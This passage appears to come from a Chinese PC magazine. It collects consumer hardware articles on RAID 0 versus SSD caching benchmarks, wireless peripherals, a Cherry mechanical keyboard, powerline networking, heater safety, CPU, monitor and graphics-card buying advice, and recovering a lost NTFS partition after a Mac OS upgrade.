- 3.  选择“Create RAID Volume”来建立一个新的RAID磁盘。因为笔者追求的是速度，所以RAID模式（RAID Level）选择“RAID 0（Stripe）”；然后在磁盘（Disks）选项来选择要制作阵列的物理磁盘，Intel SATA RAID 0支持2-6颗物理硬盘；磁盘窗口大小（Strip Size）保持128KB；然后设定磁盘阵列容量（Capacity），默认是两块物理磁盘容量的之和；最后选择“Create Volume”来建立。
- 4.  在普通磁盘上一样来安装Windows 7即可。Windows 7安装盘可以直接识别Intel SATA RAID，对于Windows 7不能识别的RAID控制器，需要在安装时加载额外驱动程序（可将驱动程序装在U盘中）。

### TIPS：3TB磁盘无法正常识别问题

产生3TB磁盘问题的原因是和MBR分区原理有关，有兴趣的朋友可以在网上搜索。目前各个硬盘厂商或主板厂商都提供了解决方法让电脑可以识别2TB以上的硬盘空间。例如西部数据随3TB硬盘赠送HighPoint扩展卡，而希捷的DiscWizard软件、技嘉的3TB+ unlock、华硕的Disk Unlocker都可以解决这个问题。但这些都是将超过2TB的空间虚拟为一个新的硬盘来管理的。

## RAID 0测试结果对比：

- 1.  可以看出，RAID 0的顺序读写能力以及突发传输速率暴增，实际表现为磁盘拷贝文件的速度大幅提升。
- 2.  组建RAID 0的磁盘越多顺序读写能力提升越大，拷贝文件的速度3块硬盘比2块硬盘快了50%，而智能响应对此完全没有加速作用。
- 3.  但组建RAID之后随机读写能力几乎没有提升，系统启动速度提升也不明显，这一点就完败于智能响应的加速之下了。同时RAID 0对PhotoShop和Office这些软件也没有很明显的加速。

| 测试磁盘 | 系统启动(秒) | HDTune顺序读(MBps) | HDTune突发(MBps) | 随机4K读(IOPS) | PCMark7系统磁盘 |
|---|---|---|---|---|---|
| 单块普通硬盘 | 23 | 98.8 | 201.5 | 72 | 2121 |
| RAID0(2块硬盘) | 23 | 190.1 | 3885.8 | 68 | 2023 |
| RAID0(3块硬盘) | 20 | 320.7 | 4500.7 | 75 | 2552 |

| 测试磁盘 | Fastcopy(MBps) Diff HDD 大 | Fastcopy(MBps) Diff HDD 小 | Fastcopy(MBps) Same HDD 大 | Fastcopy(MBps) Same HDD 小 | Winrar性能和硬件 |
|---|---|---|---|---|---|
| 单块普通硬盘 | 100.39 | 88.8 | 57.42 | 54.92 | 3522 |
| RAID0(2块硬盘) | 101.17 | 88.23 | 101.96 | 95.25 | 3503 |
| RAID0(3块硬盘) | 101.22 | 88.48 | 156.45 | 144.48 | 3503 |

## 突发奇想：用SSD对RAID 0进行加速性能会进一步提升吗？

智能响应能提高单块机械硬盘的性能。但是，当SSD和RAID 0组合到一起，会不会更强大？笔者分别用两块SSD来加速三块硬盘组成的RAID 0（增强模式）。

用金士顿SSD对RAID 0加速后，系统启动变快，随机4K能力增强，PCMark7成绩增加也比较大，但顺序读些能力降低了很多（最低跌至0.2MBps），所以文件拷贝速度很慢；换成Intel SSD后，情况略有好转，不过显然这是不划算的。也许Intel在设计智能响应的时候并没有考虑对RAID 0的加速，所以大家不用考虑这种情况了。

| 测试磁盘 | 启动(s) | HDTune顺序读(MBps) | HDTune突发(MBps) | 随机4K读(IOPS) | PCMark7系统磁盘 |
|---|---|---|---|---|---|
| SATA6Gbps | 23 | 98.8 | 201.5 | 72 | 2121 |
| RAID0(3DISK) | 20 | 320.7 | 4500.7 | 75 | 2552 |
| 金士顿增强 | 16 | 81.1 | 35.8 | 2640 | 3517 |
| Intel增强 | 11 | 226.3 | 85.4 | 14677 | 4276 |

| 测试磁盘 | Fastcopy(MBps) Diff HDD 大 | Fastcopy(MBps) Diff HDD 小 | Fastcopy(MBps) Same HDD 大 | Fastcopy(MBps) Same HDD 小 | Winrar性能和硬件 |
|---|---|---|---|---|---|
| SATA6Gbps | 100.39 | 88.8 | 57.42 | 54.92 | 3522 |
| RAID0(3DISK) | 101.22 | 88.48 | 156.45 | 144.48 | 3503 |
| 金士顿增强 | 49.02 | 87.25 | 87.84 | 128.36 | 3456 |
| Intel增强 | 100.78 | 89.27 | 144.35 | 119.88 | 3497 |

## 总结与分析

从前面的测试结果可以看出，智能响应的意义在于无需用户（尤其是小白）花心思来管理，不需要关注应该将程序或者缓存放置到SSD还是机械硬盘。对于那些平时应用比较单一，比如只玩有限的几款游戏，运行几种固定的办公或作图软件的用户来说，小尺寸SSD加大容量机械硬盘组建智能响应确实有很明显的效果。同时花费也不高。

RAID 0则适用于那些需要经常进行数据交换的用户，同时它也是一种比较经济的提高磁盘性能的方式。同样得到3TB存储空间的情况下，笔者3块1TB硬盘组成的RAID 0只需要1260元，而单块3TB硬盘需要1600元。由于大多数主板都提供了RAID功能，所以基本没有任何成本，只是组建的时候会有些麻烦，初级用户可能不会使用。

不过Intel对智能响应的宣传是“很少量的花费享受超大容量SSD的性能”，这种说法明显有所偏颇。因为智能响应的加速并不是所有时候都奏效，例如它对系统启动和一些经常重复性使用的软件有加速效果，但是对于需要等待很多时间的文件拷贝并没有任何帮助。至于两者如何选择，很显然智能响应适合只有一块传统硬盘的电脑，如果有多块硬盘建议还是使用RAID。另外，感觉智能响应未来应该进入笔记本电脑才更有意义，因为笔记本硬盘性能要弱很多，而且绝大多数都无法靠组建RAID来提升性能。

（文/永不低头）

## 还用有线你就OUT啦 无线键鼠套装购买建议

无线键鼠的优越性得到了越来越多用户的认可，尤其是组建HTPC的用户，再也不用烦恼电脑桌上盘丝洞般乱飞的电缆。尽管不少用户喜欢无线键鼠，但对选择无线键鼠并不精通。一般用户多是将关注的焦点放在传输的距离与价格上，并不真正了解目前应用于无线键鼠的主流技术与选购要素。

## 无线传输方式

这是无线键鼠区别于有线的核心，想了解无线键鼠也必须从这方面说起。无线键鼠的传输方式经历了四个技术期——红外线技术期、高频无线电技术期、蓝牙技术期和2.4GHz无线技术期。

红外线技术相对简单，价格也很低廉。但是无线传输效能受到诸多限制，比如发射与接收的方位等，因而逐步被淘汰。高频无线电技术是早期无线电传输的改良，大幅提升无线电连接的频率，保证了较高的数据传输率，同时将USB引入了接收器接口，使得使用更为便捷，但是传输速率依然不足，无线键鼠的延迟现象依然明显。

蓝牙是目前流行的短距离传输技术之一，一般的手机、笔记本以及MID都装备有蓝牙，如果键鼠使用了蓝牙，那传输的对象将非常广泛并且便捷。

当然从技术层面来看，蓝牙确实也是有所优势，一方面，2.4GHz的带宽所产生的不间断调频给设备带来了很好的抗干扰能力；另一方面，类似广播的传输方式，使得它拥有优秀的连接效果，在十米范围内即便移动也不会受到多少影响。但是延迟问题依然改变不大，并且价格昂贵，这使得市面上使用蓝牙作为无线键鼠传输方式的产品并不多。

眼下火爆的2.4GHz实际上是无线连接技术的最新进化版本，24个信道通信使其目前能最大限度的接近有线键鼠产品。在传输距离方面，9米的有效工作半径，虽不及蓝牙但也足以满足普通用户使用。另外目前具备2.4GHz价格相对蓝牙要便宜不少，产品的种类与数量也丰富。

经过上面的讲解，一般用户要选择何种技术的产品，我想不言而喻。

## 耗电使用时间

这部分要从两方面讲，技术层面与管理层面。管理层面简单，就是指无线键鼠是否带有节电管理，在无线键鼠侦测不到信号时，进入多级省电模式和休眠模式。在消耗电量方面，多级省电模式级别越多损耗的电量也就越少，长时间的不使用无线键鼠就可使其进入休眠模式，处于该模式下的功耗只有平时功耗的10%。技术层比较复杂，要说一下鼠标定位。或许用户会疑问讲着耗电怎么扯到定位上去而来，就和2.4GHz一样，定位技术不同它的耗电也不一样。主流的鼠标定位方式有四种：激光、蓝光、光学和蓝影。

在这四者中，除了蓝影之外，其它定位方式都能设计出节能不错的产品，这其中以激光产品为最。当然具备激光工作方式的鼠标价位一般较贵。一般200元以内多是蓝光、光学的产品，倘若见到不错的激光产品千万不要错过。

## 连接器

连接器一定要注意保存好，无线键鼠脱离了电线，全靠它与电脑相连接。作为桥梁它出了问题，即便再好的无线键鼠也是无济于事。连接器与键鼠不相符的情况多半是商家的问题，所以用户尽量买原装产品。另外网上购买也较容易出现这类问题，用户要格外地注意。

(文/雨寒)

## 给力白轴——小记CHERRY原厂G80-8113LRCUS机械键盘

这两年开始玩家圈子里突然开始流行起机械键盘来，令人久违的强烈手感确实让接触到的人欲罢不能。笔者前段时间有幸淘得一款稀有的白轴机械键盘，下面就和大家分享一下使用心得。

所谓机械键盘，源于其按键触发结构为机械弹簧式。即每一颗按键都有一个单独的Switch（开关，也被称为‘轴’）来控制闭合。历史上有很多种轴，多数已相继没落，现在玩家们口中所说的机械键盘，仅仅狭义地指采用Cherry MX轴的键盘。

Cherry MX轴历史悠久，型号繁多，但其主流产品线一直保持着‘青茶黑白’这4种轴，最近又增加了红轴这一类型。5种轴的区别主要是压力克数不同，压力克数即通常意义上的按键阻尼，压力克数越大，则触发需用力越大，也就是说键盘越有劲。白轴是Cherry MX轴中压力克数最大的型号，曾被广泛用于商业及工业键盘中，但因操作费力，长时间输入易疲劳，目前已经陷入停产境地。

现在市场上的白轴键盘已不多见，笔者手中的这款G80-8113LRCUS算是稀有之物了，也因此有机会一窥白轴之魅力。

## 键帽

G80-8113LRCUS定位于POS机销售终端及工业控制市场，即使在Cherry的键盘产品中也可以算是少见的精品。其巨大的尺寸以及复杂的功能在Cherry的民用级产品序列中可谓无出其右者。其键盘区共计120个按键，采用经典的灰白色调，激光刻印键帽采用PBT材质，相比常见的ABS键帽耐磨度更高，即使长时间使用也不会出现‘打油’现象。多出的16个按键以及辅助功能按键（F键、方向键及功能键）均采用双层键帽设计，即在键帽表面增加了一个透明的塑料帽，方便用户将该按键自定义功能标签置于其中。

与超市POS机的键盘十分相似。所有的双层键帽以及数字键盘均支持N-Key-Rollover可编程技术，配合Cherry Tool软件，能够提供强大的按键功能自定义特性，只是目前的Cherry Tool对Win 7 64bit的兼容性尚有待提升。

## 造型

整体造型方面，G80-8113LRCUS在Cherry庞大的G80家族中也堪称独树一帜。其键盘表面采用弧面造型，而非常见的平直表面。侧面线条相比其他产品也更为复杂多变。键盘的最上方带有双轨磁卡阅读器，同时在键盘的左侧和顶部，设计有条码扫描枪专用接口和串口，都彰显了这款键盘与众不同的商业定位。在传统布局的方向键区域，是一块Synaptics出品的触摸板，经测试该触摸板可以使用Synaptics公司的公版驱动，实现边缘滚动条、四角模拟按键等强大功能。

## 白轴

笔者这把G80-8113LRCUS即使初上手，也能够明显感觉到其按键阻尼相比其他轴的键盘有了显著的提高。相比黑轴，增加10克的全程压力克数并不会带来使用上的明显变化，但由于结构上的细微差别，白轴所能提供的段落感却会让习惯黑轴的用户难以适应。而相比青茶轴，白轴在段落感上反而有所减弱，但明显增强的压力克数很可能会让不少习惯轻轴的玩家接受不了。
当然，什么轴更好，其实并没有绝对的定义。就我个人来说，因为手指力量还算可以，因此即使长时间敲击白轴，也不会感觉有明显的疲劳感。反而十分享受白轴特有的大阻尼、长键程特性所带来独特的节奏感受。

弱，但明显增强的压力克数很可能会让不少习惯轻轴的玩家接受不了。

## 并非游戏键盘

与下时机械键盘多以游戏外设的形象示人不同，总体来说白轴并不太适合游戏，特别是竞技游戏。因为过大的压力克数以及较长的键程会明显降低操作的频率，应对高密度操作的游戏显然力不从心。即使对于射击游戏来说，使用白轴键盘依然会让手指的疲劳期过早到来，从而影响成绩。而G80-8113LRCUS在方向键区域的非标准布局，更是与竞速赛车类游戏彻底绝缘。

当然，白轴本身的开发初衷也仅仅是针对办公应用中的大量高速文字录入而设计的，只是被薄膜键盘惯坏的人们，即使在文字工作中也大多难以适应而转向了黑轴和茶轴，并最终导致了白轴这一极富特点的MX轴类的最终停产。

尽管白轴并非人人都能适应，但这并不能掩盖G80-8113LRCUS作为集大成者的光辉。反而因为轴的停产，更加烘托出这款键盘的稀有——强力的白轴、繁多的功能、复杂的设计，再加上巨无霸的体型，G80-8113LRCUS注定是键盘发展史上不容错过的‘给力’代表作。

(文/Air Force)

## 我的数据在电线里跑 电力组网全面指南

我家的住房是三层的别墅，在连接互联网时很麻烦。经过仔细寻找，我找到了这个简便的联网方法，可以最少的减少布线，且没有无线网络信号的不稳定缺点。

‘电力猫’即‘电力调制解调器’，电力线以太网信号传输适配器，又名电力猫，是通过电力线进行宽带上网的Modem的俗称，可以将你家中的任何一个普通电源插座转换为网络接口，无须另外布线就可以轻松上网浏览网站、收发电子邮件，或是传递大型文件。并具备128-bit DES (Data Encryption Security)数据加密保护功能，兼顾了数据传输的安全性。
使用电力组网有以下优势：

- 1. 即插即用，使用方便，在任何有电力线的地方(同一电表范围内)，都可利用RJ45接头连接上网。
- 2. 与无线信号相比较，具有网络稳定的特点，在同一电表表范围内，不会出现网络不稳定的现象。且在p2p下载时，无线信号会因为过多的并发线程而崩溃，电力线配置器则不会出现这种情况。
- 3. 针对复式楼房，网络可以遍布整个电网，不必重新布线。

本质上我们所使用的网络信号也是电信号，那么某些电器的使用是否会影响网络的传输呢？在实际使用中，笔者并未发现有干扰的问题。这也是其优于无线网络的原因：原来家中的无线路由器，一旦打开微波炉，网络就会中断，电力网并没有受到干扰。

还有人可能会担心，在电线之中传输网络是否会影响网速，笔者可以很负责任的告诉大家，网络速度丝毫没有影响。说到传输速率，目前主流市场上主要有14Mbps、85Mbps、200Mbps三种规格的产品，特别是200Mbps速率的产品，其实际传输速率丝毫不亚于300Mbps的无线路由器，并且有着无线路由无可比拟的稳定性，电力配置器虽然是一项比较新的技术，但是价格并不贵，在淘宝上直接搜索‘电力猫’或‘电力配置器’即可。

(文/贺可敬)

## 冬季电取暖设备使用注意事项

寒冷的冬季到来了，笔者购买了一台可调功率的电油汀，不过使用时却经常发生突然家中电源跳闸的现象。经过一番学习和研究，得到了一些经验，下面就和大家分享一下。

笔者的电热油汀经常导致跳闸，有两个原因。一是发热器件为电阻式，刚开机时电阻小，容易造成瞬间电流过大导致跳闸；另一个原因则是因为使用了劣质的电插板，接触的金属片太薄，插入时容易打火花，也会引起跳闸。解决方法当然就是更换一个质量很好的电插板了，同时电热油汀刚开机时应该调在功率较低的档位，使用一会儿再调高。除此之外，笔者还有以下一些经验。

## 选购和使用电取暖设备的注意事项

在选购电暖气时，需要考虑品牌、质量认证（3C认证）、价格、售后服务等因素。同时，选择的电暖气要具备自动恒温、瞬间断电、过热保护，以及防水溅等功能。在使用电暖气时，要注意以下几点：

- 1. 选择摆放位置：摆放位置不当容易浪费资源并产生危险。尽量背靠墙壁，并离开墙壁20厘米左右的距离；远离小孩可触及的地方，避免孩子被烫伤；远离易燃物品，避免产生火灾；远离电视等家电，避免其对电视等造成影响；
- 2. 良好的散热：电暖器上不能覆盖物品，因为电暖器表面温度较高，一旦热量不能及时散发，会造成烧机甚至引发火灾；

## 一定不能忽视电插板安全

很多人觉得电插板不起眼，所以精心挑选了一台高品质的电暖气，却用一个破旧的杂牌电插板来使用。轻则会造成电路跳闸、漏电等问题，重则会烧毁电器甚至引发火灾。如果可能，尽量使用带地线的三孔墙壁插座，选购大功率电插板，请注意以下几点：

- 1. 计算电插板的用电承受范围：比如笔者的电插板上标明10A MAX，250V~的字样，这表示电插板能承受的额定电流是10安培，而额定电压是250V，利用功率公式（P=UI），则电插板可提供的电器功率在2200W~2500W。如果需要使用更大功率的电器，就需要16A或以上的电插板。当然，电插板所插的墙壁插座的电路，以及电表都应该满足需求。
- 2. 注意电插板的质量：首先好的插头应该采用优质的铜片，弹性强劲，啮合妥帖，因为插头与插套松动会导致接触不良，是插座产生电弧甚至发生火灾的重要原因；同时经过镀镍处理的铜片不生铜锈，导电性能好；电插板内使用标准铜芯导线，导电性能好并产生热量少；塑料部件应该采用阻燃工程塑料，防止过热融化。
- 3. 电暖气不和其他电器共用一个电插板：电插板上用电器的功率之和，必须小于电插板的额定电流。用电量大的电器共用一个插座，很容易造成短路从而烧毁电器或导致电路失火。所以，对于电暖气尽量使用单孔电插板。

## 大功率电暖气使用电插板推荐

- 突破TZ-HD3
额定电流16A，额定功率4000W
- 航嘉巧管家SSH504
拥有三线防雷、过载保护，高阻燃超耐热，一体式铜套等特性，额定功率2500W

## 总结

由于取暖设备大多为功率很大的产品，在天干物燥的冬天使用尤其需要小心谨慎。

## 近期热门 英特尔主流CPU推荐与分析

火爆的暑期温度不断攀升，中考也在这似火的天气中落下帷幕。在此先祝贺考生们能以优异的成绩考入理想的学校。而在即将到来的假期里，想必同学们定会有到卖场挑选一套趁手装备的打算，以度过美好的暑期生活。本文就为大家从实际应用角度出发，告诉同学们如何挑选一颗称心如意的“芯”

## 游戏玩家首选：酷睿 i5-750S

目前英特尔基于Sandy Bridge架构设计的第二代智能酷睿处理器受到了许多用户的追捧，导致了老酷睿处理器的关注度在逐渐下降。不过不可否认的是，老酷睿处理器在性能方面的表现仍然不可小视，其性价比优势也逐渐明显。笔者今天从市场中了解到，低功耗版散片酷睿i5-750S价格下调50元，目前的零售价格仅为998元，强悍的四核心非常适合游戏玩家与超频玩家的选购。

## 高清玩家首选：酷睿 i3-2100

而从现在市场上的Sandy Bridge产品来看，i3-2100应该是性能和价格的最佳结合点，这款产品凭借着高性价比与出色性能上市不久已占据市场很大份额。值得一提的是该款处理器的酷睿i3-2100核心显卡可以完全满足高清用户的使用需求，节省了一块显卡。打算在暑期组建HTPC高清平台用户值得关注一下。当然并不是说它不适合玩游戏，由于高主频的优势其性能也不可小视，700元左右的价格十分超值。

## 暑期新上市热门芯

英特尔最早的一批Sandy Bridge处理器全线产品均采用了融合核显的设计。在桌面级处理器中，除了定位较高、最有可能搭配高端独显使用的“K”系列处理器融合了12个EU的HD Graphics 3000外，其余产品均是内置只有6个EU的HD Graphics 2000。也就是说最有可能使用集显的入门级CPU并没有跟性能最强的核显HD Graphics 3000合体，而HD Graphics 3000则很可能只被隐藏在高端独显的阴影中，显得有些遗憾。

不过暑期新上市的几款产品将会弥补这些遗憾，英特尔暑期上市的酷睿i3-2105和酷睿i5-2405S就搭配了性能最强的HD Graphics 3000，相比旧款的i5-2500在图形性能上会有很大的提升。笔者预计i3-2105大显铺货后会逐渐取代i3-2100而成为主流HTPC平台首选产品。虽然CPU部分区别不大，但前者的游戏性能会强很多。至于i5-2405S则性价比稍逊，根据以往英特尔价格规律，其上市售价应在1500元左右。

## 低端：Pentium G622 将逐渐替代 Pentium G620

关于Pentium G622目前还拿不到太多信息，但基本可确定的是Pentium G622的规格参数会和Pentium G620完全相同，逐渐将取代G620成为Pentium系列主流产品，但还不知道Pentium G693能够解锁什么，估计是超线程技术和隐藏的1MB三级缓存，甚至是AVX指令集。

目前处理器市场稍显混乱，新老产品同时在市。考虑英特尔目前接口升级非常频繁，玩家购买时无需考虑日后升级问题，找到适合自己的可以满足日常应用的就足以。老i5-750S与i3-2100都是比较值得购买的产品。如玩家对集显性能要求较高，可以等等搭载HD Graphics 3000的酷睿i3-2105和酷睿i5-2405S。

(文/Jason)

## 炎炎夏日 ATI显卡巧降温

随着夏季的来临，气温节节上升，平时上网聊天的时候，笔者使用的HD4870显卡温度居高不下，看着着实心疼，有没有办法让显卡在上网聊天等低负载工作时变“清凉”一些呢？经过一番搜索，我找到了ATI Tray Tools（以下简称ATT）这款免费的ATI显卡调节软件。

ATT下载地址为：http://tinyurl.com/42awu9v。使用ATT调节ATI显卡之前要确保已经安装了ATI显卡催化剂驱动，最新版催化剂驱动版本号是11.4，可以访问驱动之家等网站搜索下载。

安装ATT过程中会要求选择界面语言，这时选择Simplified Chinese。

启动ATT之后，会在系统托盘区域显示图标。首先要设置显卡满负荷运行时的频率。右击系统托盘区域的ATT图标，选择“硬件—超频设置”，勾选“保存频率设置到配置文件”，将“核心频率”和“显存频率”调整为跟“BIOS核心”和“BIOS显存”相同的数值。点击“应用”按钮再点击保存按钮，在“创建配置”对话框填入“3D”，点击“确定”，这样我们就创建了显卡满负荷运行时的配置文件。

接着要设置显卡低负载运行时的频率和电压。也是在“超频设置”界面，勾选“保存频率设置到配置文件”，将电压、核心频率和显存频率都调低。这时你会发现，核心频率和显存频率可以下调的幅度很小，这是ATT的保护机制，防止用户将频率调得太低导致无法显示。每次点击“应用”按钮，核心频率和显存频率可以调低10MHz，当核心频率调低50MHz之后如果想继续调低频率，则需要点击“确定”按钮，再启动超频设置。调整好后，点击“应用”按钮然后点击保存按钮，在“创建配置”对话框填入“2D”，点击“确定”。如果希望ATT启动后自动将显卡降频运行，可以在“配置”的下拉菜单选择2D，然后勾选“启动时加载所选择的配置”。

定义好了配置文件，我们还需要显卡能够在两种状态中切换。右击系统托盘区域的ATT图标，选择“硬件—自动超频”，勾选“激活2D/3D模式自动超频”、“程序使用3D模式时”下拉菜单选择3D配置文件，“程序结束后（3D->2D）”下拉菜单选择2D配置文件。这样平时使用时显卡降压降频，玩游戏时才使用高频率。

经过以上设置，我的显卡低负载时的核心温度和显存温度比使用ATT之前下降了10摄氏度以上。如果你也使用ATI显卡而且在为显卡低负载运行时的高温问题而苦恼，赶快试试ATT这款软件吧。

注意：ATT安装好后默认是随系统启动，如果想禁用ATT自启动，可以右击系统托盘区域的ATT图标，在“工具&选项—常规选项”里面设置。

(文/苏宏晓)

## 市售廉价IPS液晶显示器搜索

暑假的天气正像显示器市场一样高温不下，大家都是老老实实在家享受着大片，变形金刚3、哈利波特7无不给玩家送去快感，但却往往因为液晶显示器不给力而堵心。今天介绍的几款IPS屏显示器就能帮你更好享受大片的精彩。

简单来说，IPS屏相比传统的TN屏优势可归为以下几点：

实现在使用时，IPS屏也要优越很多，主要体现在可视角度这一点上，可能在小尺寸屏上问题不算明显，但当屏幕大了之后，对于TN屏你如果是坐在显示器前观看，屏幕的中央和四周颜色都不一样，这样就很影响看片了。

IPS面板液晶显示器的确不错，但是对于大众玩家来说，IPS的定价要高不少，首先面板本身价格要贵很多，再者市面上采用了IPS面板的显示器都是高档型号，内部电路和视频接口都要复杂一些，功能也会更强，所以价格比同尺寸的TN屏显示器贵好几倍都不稀奇。

不过既然有高端的，自然也会有低端的。目前市场上采用IPS面板的廉价显示器如同凤毛麟角只有少数的几款，今天我们就搜罗出来介绍给大家。

## AOC iF23

首先来看看AOC iF23液晶显示器，采用IPS面板同时使用CCFL背光技术，23英寸大屏幕尺寸可以满足喜欢在家看电影的需求，灰阶度响应时间为6ms，可以有效地防止画面拖尾现象，100000:1动态对比度，将画面还原到最逼真，背部接口具有VGA和DVI两个接口设计，无论是喜欢VGA还是DVI接口的朋友显示器都是可以满足大家的要求，个性的外观样式也非常适合年轻朋友们使用，同时可以和家中的家居完美的融合在一起，目前此款液晶显示器售价仅为1129元。

## 戴尔 U2311H

下一个我们来看看戴尔U2311H，DELL的产品在玩家也占据一定的地位，面对企业办公所使用的产品，戴尔一向是精益求精。此款液晶显示器采用IPS面板和CCFL背光技术，23英寸玩家使用起来更加体会电影院荧屏的感觉，灰阶度响应时间为8ms，10000:1的动态对比将颜色还原至最完美，接口方面设计的很到位，不仅仅是有VGA和DVI接口，戴尔此款液晶显示器还设计有DP接口，为玩家提供了更多的输出解决方案。此款IPS液晶显示器目前仅售1399元，其最大的特色就是背部支架和旋转角度，玩家使用起来更加方便。

## LG IPS236V

前两款如果还不能够得到玩家的欣赏的话，笔者再给玩家推荐一款IPS液晶显示器—LG IPS236V。LG使用本厂的液晶面板，品质工艺都处于优等水平，此款液晶显示器采用IPS面板，与之前不同的是，此款液晶显示器采用LED背光，灰阶度达到了6ms。为了给玩家更好的视频输出解决方案，LG此款液晶显示器除了拥有VGA和DVI接口，还设计有HDMI接口，给玩家最优质的高清视频。目前此款液晶显示器售价为1488元。

## 华硕 ML239H

华硕液晶显示器外观设计较为独特，特别是液晶显示器的底部支架，ML239H液晶显示器采用IPS面板同时使用LED背光技术，5000万:1的动态对比度可以让画面更加逼真，灰阶度响应时间为8ms，背部接口具有VGA和DVI大众接口，并且设计有HDMI接口，让玩家可以使用更高清的输出解决方案，此款液晶显示器最大的特点是背部设计有耳机接口，玩家可以直接从液晶显示器上面输出音频，工作或者是游戏时候享受音乐的乐趣，目前此款液晶显示器售价为1799元。

以上几款相对于那些动辄4000元以上的高档IPS屏显示器真的是亲民了不少，虽然它们会在功能甚至画质上都达不到高档产品的水平（大家一定要有这点心理准备）但是肯定比绝大多数的TN屏都会强的多。

(文/Jwiki)

| IPS面板优点缺点 | TN面板优点缺点 |
| --- | --- |
| IPS属于广视角面板，可视角度较大 | 屏幕造价较贵，平民级的较少 |
| 相对于IPS功耗较低，适合环保理念家庭使用 | 可视角度较小 |
| 色彩还原较好，画面过渡较为自然 | 功耗较高 |
| 相比IPS来说对比度较高 | 色彩还原较差，适合玩游戏和办公 |
| 相对于TN面板来说更加适合看电影和图片 | 价格比较平民 |
| IPS相对于TN来说漏光控制较好 | 做工差的漏光程度较厉害 |
| 高端产品居多 | 任何尺寸级别都覆盖 |

## 中档主力 550Ti、HD6790你选谁

在攒机时大多数玩家都会有N卡A卡不知道选谁的难题，面对两款性能和价格都相当的显卡，到底应该如何取舍？今天我们要讨论的就是这个话题，除了性能和价格，还有很多要考虑的方面。

## 销量最大的中档主力

550Ti和HD6790是NVIDIA和AMD两家名副其实的主力军，恰到好处的性能价格比吸引着数量众多的玩家，先来看看他们的参数比较：

目前最为适合游戏且性价比合理的显卡莫过于NVIDIA的GeForce GTX550Ti与AMD的Radeon HD6790了，其中影驰的GTX550Ti与翔升的GTX550Ti性价比最为突出。AMD方面蓝宝HD6790 1GB GDDR5 白金版与微星 R6790 至尊 1G也非常适合。下面我们来针对功耗、接口、游戏表现、附加功能来为大家介绍。

## 功耗

在同样的平台下，影驰与翔升的GTX550Ti待机功耗约为127W，满载为263W，而蓝宝与微星的HD6790约为待机95瓦，满载功耗约为208瓦，以上数据可以看出HD6790在功耗方面优势尤为明显，这也是AMD从5000系列开始一直保持的优良传统，对于功耗比较在意的玩家选择HD6790更为适合。

## 接口

接口方面，影驰与翔升的GTX550Ti标配2个1.2规范的DP接口，一个1.4a规范的HDMI接口和2个支持Dual-Link的DVI接口，蓝宝与微星的HD6790标配2个DVI+HDMI+2个MINI DisplayPort接口组合，可以实现各种多屏输出模式，以及HDMI高清输出模式，以上几款显卡均可支持最大2560×1600分辨率，对于有多屏显示需求与接驳液晶电视的玩家我们推荐购买HD6790。

## 游戏表现

运行目前大部分游戏的表现上，GTX550Ti与HD6790几乎平分秋色，在孤岛危机与星际争霸II等极少数游戏中，HD6790表现要好于GTX550Ti，不过NVIDIA在驱动优化上更强一些，对游戏的兼容性也高于AMD，因此笔者在这里推荐初级玩家选用GTX550Ti更为稳妥。

## 附加功能

影驰 GTX 550Ti支持3D立体显示以及多屏输出模式。翔升的GTX550Ti支持GPU加速蓝光3D、x.V色彩、HDMI深色以及7.1数字环绕声，可配合使用各类高清显示终端设备，可谓功能丰富。蓝宝 HD6790 1GB GDDR5 白金版并没有太多花哨的功能，只采用独家的HJB高效静音散热系统，寿命较一般风扇提高50%，对于喜好安静的朋友是个不小的诱惑。

| 产品名称 | GeForce GTX550Ti | Radeon HD6790 |
| --- | --- | --- |
| 制作工艺 | 40纳米 | 40纳米 |
| 核心位宽 | 256bit | 256bit |
| 核心频率 | 900MHz | 775MHz |
| 流处理器频率 | 1800MHz | 未知 |
| SP单元 | 192个 | 800个 |
| 3D API | 支持DirectX 11, OpenGL 4.1 | 支持DirectX 11, OpenGL 4.0 |
| RAMDAC频率 | 400MHz | 400MHz |
| 特色功能 | 支持HDCP、支持CUDA、支持PhysX物理加速、支持PureVideo硬件加速 | 支持ATI CrossFire、支持HDMI接口、支持HDTV、支持HDCP |

| 品牌 | 型号 | 价格 |
| --- | --- | --- |
| 影驰 | GTX550Ti | 899元 |
| 翔升 | GTX550Ti | 899元 |
| 蓝宝 | HD6790 1GB GDDR5 白金版 | 999元 |
| 微星 | R6790 至尊1G | 999元 |

## 价格分析

从价位上来看，影驰与翔升的GTX550Ti价格低于蓝宝与微星的HD6790百元左右。但性能相差并不是很大，如玩家主要为了玩游戏而购买显卡，我们更推荐GTX550Ti，虽说游戏性能上HD6790略好于GTX550Ti，但实际使用中差距并不明显，如果您追求多屏显示或接驳大型液晶电视我们更推荐您购买HD6790，必定AMD显卡的多屏显示效果一直优于NVIDIA。

## GTX550Ti 游戏首选 HD6790 多能兼备

从以往的测试结果来看，GeForce GTX550Ti与AMD Radeon HD 6790在游戏性能上几乎没有多少差距，但从其核心规格与功耗上面来看Radeon HD 6790的优势还是非常明显，只有在运行极少数游戏时GTX550Ti低于Radeon HD6790 5-8帧，我们理智分析HD6790可以流畅运行的游戏GTX550Ti也足以胜任，并且NVIDIA在驱动优化与更新速度上优势明显。

不过看重功耗的玩家更适合HD6790，众所周知AMD的显卡从HD5000系列开始，一直在功耗方面控制的非常到位，目前HD6790的功耗要远远低于GTX550Ti，一年省下来的电费也是笔非常可观的数字。

## 找回被狮子吃掉的硬盘

前段时间笔者把苹果MAC mini小电脑系统升级到了10.7（也就是Lion，狮子），正在欢天喜地体验新系统的时候，却发现有一个NTFS分区没了。笔者立马傻眼，那里面可有好几十GB的数据啊！上网一搜，发现很多苹果用户都碰上了，但是回帖的人很少给出解决方法。经过一番倒腾，笔者终于将其搞定，现在和大家分享一下。

大家都知道苹果电脑提供了BootCamp工具让我们可以同时安装MAC和Windows双系统，可是却只允许存在一个NTFS分区，这就和我们的使用习惯背道而驰了。因为Windows用户往往都会给硬盘做多个分区，这样重装系统时也会更加方便。

### 第一步：抢救丢失数据

虽然很多玩家都会想办法给苹果电脑的硬盘分出个NTFS分区，可是在每次升级MAC系统时都会碰到笔者前面说到的问题。此时除了安装Windows的分区，另一个NTFS分区就会消失，而且你在磁盘管理工具都找不到它，要恢复里面的数据都不知道从何入手，真是让人又急又气。

经过大量的搜索和学习，笔者终于找到了一种非常可靠的找回丢失数据的方法。首先，绝对不要对硬盘进行任何操作，然后在Windows系统中安装Easyrecovery恢复软件。

- 打开Easyrecovery，找到主界面左侧的“数据恢复”，选择“高级恢复”，选中C盘（就是安装Windows系统那个盘）。
